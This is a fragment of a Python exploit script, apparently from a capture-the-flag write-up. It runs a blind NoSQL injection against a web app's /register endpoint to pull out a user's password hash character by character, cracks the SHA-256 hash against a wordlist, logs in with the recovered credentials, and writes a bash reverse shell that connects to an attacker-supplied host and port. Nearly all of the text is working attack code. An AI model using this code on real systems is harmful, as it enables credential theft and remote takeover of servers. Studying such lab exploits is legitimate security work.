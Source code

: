 ```py
    global password
    url = "http://%s" %rhost + ":3000/register"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters + string.digits
    limit_inf = 0
    limit_sup = limit_inf + 1
    iterator = 0
    print("The hash for username %s is..." %username)
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "username=" + username + "'+%26%26+this.password.substring("+ str(limit_inf) +","+ str(limit_sup) +")+%3d%3d'" + c + "&password=0x4rt3mis"
            res = requests.post(url, data=payload, proxies=proxies, headers=headers, allow_redirects=False)
            # TRUE boolean message
            if "already exists" in res.text:
                password.append(c)
                limit_inf = limit_inf + 1
                limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
    password = ''.join(password)
    bruteHash(password,wordlist)
    
# Function to brute force the password hash
def bruteHash(password,wordlist):
    list = open(wordlist,"r",encoding='utf-8')
    text = list.readlines()
    global word
    for word in text:
        if word.endswith('\n'):
            word = word[:-1]
            word = word.encode('utf-8')
            brute = hashlib.sha256(word).hexdigest()
            if brute == password:
                print()
                word = word.decode("utf-8")
                print("[+] Password Found!!!! " + word + " [+]")
                return
                
# Function to login on the app to get a valid session
def loginAPP(rhost,username,word):
    print("[+] Let's login with the creds %s:%s !!! [+]" %(username,word))
    url = "http://%s:3000/auth" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "%s" %word}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Success logged in !!! [+]")

# Function to create the payload reverse bash
def createPayload(lhost,lport,file):
    print("[+] Creating the malicious bash !! [+]")
    os.system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/%s/%s 0>&1' > %s" %(lhost,lport,file))
    print("[+] Created !! [+]")

# b64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()

```